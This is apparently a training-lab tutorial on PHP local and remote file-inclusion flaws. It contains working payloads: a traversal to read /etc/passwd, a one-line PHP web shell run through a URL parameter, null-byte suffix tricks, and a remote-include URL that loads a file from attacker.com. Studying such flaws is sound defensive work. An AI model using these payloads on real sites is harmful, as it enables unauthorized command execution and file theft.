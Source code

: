 # File Inclusion

### File Include Vulnerabilities

In a lot of applications, developers need to include files to load classes or to share templates between multiple web pages.

File include vulnerabilities come from a lack of filtering when a user-controlled parameter is used as part of a file name in a call to an including function (`require`, `require_once`, `include` or `include_once` in PHP for example). If the call to one of these methods is vulnerable, an attacker will be able to manipulate the function to load his own code. File include vulnerabilities can also be used as a directory traversal to read arbitrary files. However, if the arbitrary code contains an opening PHP tag, the file will be interpreted as PHP code.

This including function can allow the loading of local resources or  remote resource (a website, for example). If vulnerable, it will lead to:

- **Local File Include (LFI):** A local file is read and interpreted.
- **Remote File Include (RFI):** A remote file is retrieved and interpreted.

By default, PHP disables loading of remote files, thanks to the configuration option: `allow_url_include`. In the ISO, it has been enabled to allow you to test it.

In this first example, you can see an error message, as soon as you inject a special character (a quote, for example) into the parameter:

```
Warning: include(intro.php'): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'intro.php'' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
```

If you read the error message carefully, you can extract a lot of information:

- The path of the script: `/var/www/fileincl/example1.php`.
- The function used: `include()`.
- The value used in the call to `include` is the value we injected `intro.php'` without any addition or filtering.

We can use the methods used to detect directory traversal, to detect file include. For example, you can try to include `/etc/passwd` by using the `../` technique.

```
From:
www.example.com/?page=index.php
To:
www.example.com/?page=../../../etc/passwd
```


If this works, then we can try loading the following inside a file to execute a command:

```php
<?php 
  system($_GET['c']);
?>
```
> :warning: Fun Fact: Putting this in a file will set off a variety of endpoint defense solutions

This is then invoked with ```https://www.example.com/?page=maliciousfile.txt&c=command

If the site adds a prefix, this can potentially be removed with a null byte ```%00``` (if their PHP version is lower than 5.3.4). For RFI, you can get rid of the suffix, by adding `&blah=` or `?blah=` depending on your URL:

```http://target.com/?page=http://attacker.com/maliciousfile.txt%00&c=command```

